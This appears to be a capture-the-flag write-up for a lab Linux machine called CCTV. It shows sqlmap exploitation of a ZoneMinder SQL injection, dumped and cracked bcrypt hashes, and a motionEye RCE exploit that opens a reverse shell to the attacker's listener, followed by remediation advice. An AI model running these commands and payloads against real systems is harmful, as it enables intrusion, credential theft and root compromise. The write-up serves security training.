





| Property       | Value                                                                  |
| -------------- | ---------------------------------------------------------------------- |
| **OS**         | Linux                                                                  |
| **Difficulty** | Easy                                                                   |
| **Release**    | 2026-03-07                                                             |
| **State**      | Active                                                                 |
| **IP**         | 10.129.66.90                                                           |
| **Techniques** | SQL injection, hash cracking, local port forwarding, authenticated RCE |
| **Tags**       | #web #privesc #linux                                                   |

---
## Summary

CCTV is an easy Linux machine hosting SecureVision, a surveillance platform on port 80. A staff login panel with default credentials (`admin:admin`) provides access to a ZoneMinder admin dashboard, which is vulnerable to SQL injection (CVE-2024-51482). The vulnerability is exploited to dump three user accounts and their bcrypt password hashes from the database. The hash of the user `mark` can be cracked, granting SSH access to the host. A motionEye service running as root is running internally on port 8765. Plaintext credentials found in its configuration file allow authenticated access after setting up an SSH local port forward. motionEye 0.43.1b4 is vulnerable to an authenticated RCE (CVE-2025-60787), which is leveraged to obtain a reverse shell as root.

---
## Enumeration

```
echo '10.129.66.90 cctv.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sC -sV cctv.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-13 15:45 EDT
Nmap scan report for cctv.htb (10.129.66.90)
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: SecureVision CCTV & Security Solutions
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 40.27 seconds
```

### Service Enumeration

The service running on port 80 is a SecureVision platform offering solutions for CCTV monitoring.



"Staff Login" redirects to a ZoneMinder login form, accessible with the default credentials `admin:admin`.



**Vulnerable ZoneMinder v1.37.63:**



---
## Foothold

### CVE-2024-51482

PoC: [https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)

ZoneMinder v1.37.* <= 1.37.64 is vulnerable to a boolean-based SQL injection in `web/ajax/event.php`.

```php
case 'removetag' :
    $tagId = $_REQUEST['tid'];
    dbQuery('DELETE FROM Events_Tags WHERE TagId = ? AND EventId = ?', array($tagId, $_REQUEST['id']));
    $sql = "SELECT * FROM Events_Tags WHERE TagId = $tagId";
    $rowCount = dbNumRows($sql);
    if ($rowCount < 1) {
      $sql = 'DELETE FROM Tags WHERE Id = ?';
      $values = array($_REQUEST['tid']);
      $response = dbNumRows($sql, $values);
      ajaxResponse(array('response'=>$response));
    }
```

The `tid` parameter is added directly into `$sql` and executed without sanitization.

### Exploitation

Current session cookie:



Confirming the SQL injection vulnerability:

```
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=uh5fv9dfp6b8hgvr9omj9g5de6" --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[16:06:54] [INFO] GET parameter 'tid' is vulnerable.
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 6352 FROM (SELECT(SLEEP(5)))lVEX)
```

sqlmap identifies a time-based blind injection rather than a boolean-based one as described in the PoC. This is likely due to the response not reflecting a meaningful difference in content between true and false conditions, leading sqlmap to fall back to time-based detection.

ZoneMinder uses a MySQL database provisioned by `zm_create.sql`.

Official repository:
https://github.com/ZoneMinder/ZoneMinder/blob/master/db/zm_create.sql.in

```sql
DROP TABLE IF EXISTS `Users`;
CREATE TABLE `Users` (
  `Id` int(10) unsigned NOT NULL auto_increment,
  `Username` varchar(64) character set latin1 collate latin1_bin NOT NULL default '',
  `Password` varchar(64) NOT NULL default '',
  ...
  PRIMARY KEY (`Id`),
  UNIQUE KEY `UC_Username` (`Username`)
) ENGINE=@ZM_MYSQL_ENGINE@;
```

### Database Enumeration

```
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=aju0c6gju1id11v7j73n9h9bk9" --batch -D zm -T Users -C Username,Password --dump --threads 10
...
Database: zm
Table: Users
[3 entries]
+------------+--------------------------------------------------------------+
| Username   | Password                                                     |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin      | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
```

Three bcrypt (`$2y$`) hashes are retrieved.

### Hash Cracking

```
hashcat -m 3200 '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.' /usr/share/wordlists/rockyou.txt --show
$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.:opensesame
```

Credentials retrieved: `mark:opensesame`

```
ssh mark@cctv.htb
# password: opensesame
```

---
## Privilege Escalation

### Enumeration

Running `linpeas.sh` on the host reveals a motionEye service running as root:

```
motioneye.service   loaded active running   motionEye Server
  Potential issue in service: motioneye.service
  └─ RUNS_AS_ROOT: Service runs as root
```

motionEye runs by default on port 8765, confirmed by looking for active listening TCP ports:

```
mark@cctv:~$ ss -tlpn
tcp   0   0   127.0.0.1:8765   0.0.0.0:*   LISTEN
```

The motionEye configuration file stores the admin credentials in plaintext:

```
mark@cctv:/etc/motioneye$ cat motion.conf
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password
```

Setting up a local port forward to access the service:

```
ssh -L 1234:localhost:8765 mark@cctv.htb
```

**Vulnerable motionEye version 0.43.1b4:**



### CVE-2025-60787

PoC: [https://github.com/d3vn0mi/CVE-2025-60787-POC](https://github.com/d3vn0mi/CVE-2025-60787-POC)

motionEye accepts arbitrary strings in configuration fields such as `image_file_name` and writes them directly into Motion configuration files (`/etc/motioneye/camera-*.conf`). When the Motion daemon restarts, it interprets these fields as shell-expandable strings, allowing an authenticated attacker to inject and execute arbitrary OS commands. Client-side validation present in the web UI can be bypassed by sending crafted API requests directly.

### Exploitation

```
python3 exploit.py revshell \
    --url http://localhost:1234 \
    --user admin \
    --password 989c5a8ee87a0e9521ec81a79187d162109282f0 \
    -i 10.10.14.224 \
    --port 4444

╔══════════════════════════════════════════════════════════════╗
║  CVE-2025-60787  │  motionEye Authenticated RCE             ║
║  Affected: <= 0.43.1b4  │  CVSS 7.2 (High)                 ║
║  Author: d3vn0mi                                            ║
╚══════════════════════════════════════════════════════════════╝

[*] Connecting to http://localhost:1234 as admin
[*] Authentication successful
[*] Enumerating cameras...
[*] Found 1 camera(s):
    1) Name: 'CAM 01' ; ID: 1 ; root_directory: '/var/lib/motioneye/Camera1'
[*] Using first camera (ID 1)
[*] Injecting payload into camera config...
[+] Payload injected. Check your listener...
```

**User flag and root flag:** 

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.224] from (UNKNOWN) [10.129.66.90] 37774
bash: cannot set terminal process group (48036): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# cat /root/root.txt
4738*********************aa9
root@cctv:/etc/motioneye# cd /home
root@cctv:/home# ls
mark  sa_mark
root@cctv:/home# cat ./sa_mark/user.txt
c312*********************021
```

---
## Remediation

- **Weak credentials:** Replace default `admin:admin` credentials on the ZoneMinder staff login panel and enforce a strong password policy.
- **CVE-2024-51482:** Upgrade ZoneMinder to version 1.37.65 or later.
- **Plaintext credentials in configuration files:** Avoid storing credentials in plaintext in application config files. Restrict read permissions on sensitive configuration files to privileged users only.
- **CVE-2025-60787:** Upgrade motionEye to a patched version. Avoid running application services as root when not strictly necessary.

---
## References

- [CVE-2024-51482 — ZoneMinder SQL Injection](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)
- [ZoneMinder Database Schema](https://github.com/ZoneMinder/ZoneMinder/blob/master/db/zm_create.sql.in)
- [CVE-2025-60787 — motionEye Authenticated RCE](https://github.com/d3vn0mi/CVE-2025-60787-POC)